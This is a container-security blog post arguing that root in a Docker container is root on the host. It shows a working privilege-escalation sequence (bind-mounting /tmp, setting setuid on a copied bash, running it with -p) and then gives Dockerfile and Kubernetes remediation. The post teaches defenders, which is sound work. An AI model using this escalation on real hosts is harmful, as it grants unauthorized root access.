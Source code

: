 ```yaml
---
title: "The False Sense of Security: Running Containers as root"
author: wonderchild
date: 2023-03-26 14:30:00 +0500
categories: [Containers]
tags: [Containers, Security]
---
```



---

Containers have revolutionized modern software development, enabling us to develop, build, package, and deploy software applications faster and more efficiently than ever before. The benefits of containerization are many, from easier deployment and scaling to improved resource utilization and portability. However, despite the advantages that containers offer, they are not immune to security risks. In this post, let's discuss how root inside the container and on the host essentially mean one and the same thing.

## Insecure By Default

In her book [Container Security](https://www.oreilly.com/library/view/container-security/9781492056690/), Liz Rice described containers running as root as "the most insecure-by-default behavior in the container world", and despite this behavior being insecure, at the time of this writing, most if not all containers still run as root by default.

For instance, if we spin up an Ubuntu container using Docker and check the user ID, we can see that it's running as root:

```
$ docker run -it ubuntu /bin/bash
root@3de6e3805519:/# id
uid=0(root) gid=0(root) groups=0(root)
```

One might mistakenly assume like I myself had once believed, that root inside a container is completely isolated from the root on the host. However, that is not the case. 

To confirm that root in the Ubuntu container is the same as the root on the host, let's run the `sleep` command inside the container:

```
root@3de6e3805519:/# sleep infinity
```

Now, let's open another terminal on the same host, and use the `ps` command to see that this process is running under root's user ID:

```
$ ps -fC sleep
UID          PID    PPID  C STIME TTY          TIME CMD
root        4434    4152  0 19:38 pts/0    00:00:00 sleep infinity
```

From the perspective of the host, the `sleep` process is owned by the root user, as seen above. This indicates that root inside the container is essentially the same as root on the host.

This leads us to the question: how can attackers take advantage of this? So let's now explore how this practice could be abused by an attacker.

## Leveraging Containers for Privilege Escalation

Assuming we already have initial access to the machine as a normal non-root user on the host, let's demonstrate how an attacker can use containers to escalate their privileges.

To begin, we'll run an Ubuntu container and bind-mount the host's `/tmp` volume inside the container using the following command:

```
$ docker run -v /tmp:/tmp -it ubuntu /bin/bash
root@2ea086531742:/#
```

With the container up and running, let's open another terminal on the host as non-root user and copy the user's `/bin/bash` file to the `/tmp` directory using the following command:

```
$ cp /bin/bash /tmp
```

Next, in the Ubuntu container, let's see who owns the `/tmp/bash` file:

```
root@2ea086531742:/# ls -l /tmp/bash 
-rwxr-xr-x 1 1000 1001 1234376 Mar 25 17:21 /tmp/bash
```

As we can see, the file is currently owned by the non-root user with UID `1000`.

Now, we'll use the `chown` command to change the ownership of the file to the root user:

```
root@2ea086531742:/# chown root:root /tmp/bash
root@2ea086531742:/# ls -l /tmp/bash
-rwxr-xr-x 1 root root 1234376 Mar 25 17:21 /tmp/bash
```

The file is now owned by root, so we'll set the `setuid` bit on the file using the `chmod` command:

```
root@2ea086531742:/# chmod +s /tmp/bash
root@2ea086531742:/# ls -l /tmp/bash
-rwsr-sr-x 1 root root 1234376 Mar 25 17:21 /tmp/bash
```

Now that the `setuid` bit is set, we can go back to the terminal of the non-root user and execute the `/tmp/bash` file with the `-p` option to launch bash in privileged mode and maintain the privileges owned by the file's owner:

```
$ /tmp/bash -p
bash-5.1# whoami
root
```

So now, even though we ran the `/tmp/bash` file as a regular non-root user, we have become root on the host.

If you want to see this in action, I suggest giving HackTheBox's now-retired [GoodGames](https://app.hackthebox.com/machines/GoodGames) machine a try. A good friend of mine, Abdullah Rizwan has a nice [writeup](https://arz101.medium.com/hackthebox-goodgames-20358b06420c) on the machine.

Furthermore, there are numerous other techniques that attackers can use to escape their privileges, such as [this](https://www.electricmonk.nl/log/2017/09/30/root-your-docker-host-in-10-seconds-for-fun-and-profit/) in the blog post from Ferry Boender, or the [one](https://medium.com/@mccode/processes-in-containers-should-not-run-as-root-2feae3f0df3b) by Marc Campbell.

## Remediation

If you're using Docker as your container runtime, the fix is as simple as adding the following two lines to your Dockerfile:

```
RUN groupadd --gid 65532 nonroot \
    && useradd --uid 65532 --gid 65532 -m nonroot
USER nonroot
```

Alternatively, if you're working with Kubernetes, you can leverage the `securityContext` setting or `PodSecurityPolicy`. However, since the latter is deprecated, here's an example of how you can use the former to prevent privilege escalation:

```yaml
securityContext:
  allowPrivilegeEscalation: false
  capabilities:
    drop:
      - ALL
  runAsNonRoot: true
```

## Conclusion

To sum up, we've learned how the ephemeral nature of containers can give us a false sense of security, and that root inside a container is equivalent to root on the host. This means that a successful container escape can lead to a complete compromise of the host. To prevent this, it's crucial to follow the principle of least privilege and adopt security best practices. Without these measures, we'd just be a single misconfiguration away from allowing an attacker to gain full control.